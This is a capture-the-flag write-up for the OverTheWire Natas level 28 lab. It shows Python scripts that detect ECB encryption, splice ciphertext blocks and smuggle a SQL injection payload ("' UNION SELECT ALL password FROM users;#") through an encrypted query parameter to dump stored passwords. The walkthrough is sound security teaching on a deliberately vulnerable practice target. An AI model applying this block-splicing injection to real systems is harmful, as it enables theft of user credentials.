








# Natas — Level 28 → 29

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-30

## Goal

A joke search page:

    Whack Computer Joke Database
    Search: [___________] [search]
    sorry, we are currently out of sauce

## Solution

Searching for something ordinary first, to see how the request actually worked:

    Search: brown

The page redirected to a GET request with the search term nowhere in plain sight — instead there was a long base64-looking, URL-encoded blob in a `query` parameter:

    natas28.natas.labs.overthewire.org/search.php/?query=G%2BqlEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPL1B4BFB60Fi8dp%2FrTGOx%2BCrDuHHBxEq...

DevTools confirmed the same thing from the request itself — whatever gets searched for is encrypted server-side before being reflected back in the URL:

To understand the encryption's shape, sent a query built from two distinct repeated characters and inspected the resulting ciphertext block by block:

    payload = "A" * 10 + "B" * 14

    r = s.post(url, data={"query": payload})
    encoded = r.url.split("query=")[1]
    ciphertext = base64.b64decode(unquote(encoded))

    for i in range(0, len(ciphertext), 16):
        block = ciphertext[i:i+16]
        print(f"Block {i//16 + 1}: {block.hex()}")

Running it gave a 96-byte ciphertext — six clean 16-byte blocks:

    Length: 96
    Block 1: 1be82511a7ba5bfd578c0eef466db59c
    Block 2: dc84728fdcf89d93751d10a7c75c8cf2
    ...

A fixed block size with no visible dependency between blocks is the signature of ECB mode — each 16-byte plaintext block encrypts to the same ciphertext regardless of what comes before or after it, since there's no chaining. That means valid ciphertext blocks from two *different* encrypted queries can be spliced together, and each block will still decrypt correctly on its own — enough to build a query the server never actually encrypted as a whole.

Wrote a second script to do exactly that. First, encrypted a baseline query of all spaces to see the "normal" structure. Then encrypted a real SQL injection payload, padded with exactly enough leading spaces to push the actual malicious SQL onto a clean block boundary — so the blocks containing it hold *only* the injected SQL, nothing else mixed in from surrounding characters:

    base = enc(" " * 10)

    sql = " " * 9 + "' UNION SELECT ALL password FROM users;#"
    evil = enc(sql)

    # Extract SQL blocks and keep valid padding
    blocks = evil[48:-16]
    forged = base[:48] + blocks + base[48:]

    r = s.get(url + "/search.php/", params={
        "query": base64.b64encode(forged).decode()
    })

The forged ciphertext kept the original query's fixed prefix and closing structure (and its padding) intact, while swapping in blocks that decrypt to `' UNION SELECT ALL password FROM users;#` in the middle — turning the search into a query that dumps every password in the `users` table instead of actually searching for anything. Running it returned the joke list with the injected results in place:

    Whack Computer Joke Database
    <ul><li>[REDACTED]</li></ul>

## Result

    Password for natas29: [REDACTED]

## Key Takeaway

ECB mode encrypts each block independently with no chaining between them, which means it's malleable — an attacker doesn't need to break the cipher at all, just control where their chosen plaintext lands relative to the 16-byte block boundaries. Padding a payload so it starts exactly on a block boundary is enough to get "clean" ciphertext blocks that can be cut out and pasted into a different, otherwise-legitimate ciphertext, splicing in arbitrary SQL without ever touching the encryption key.
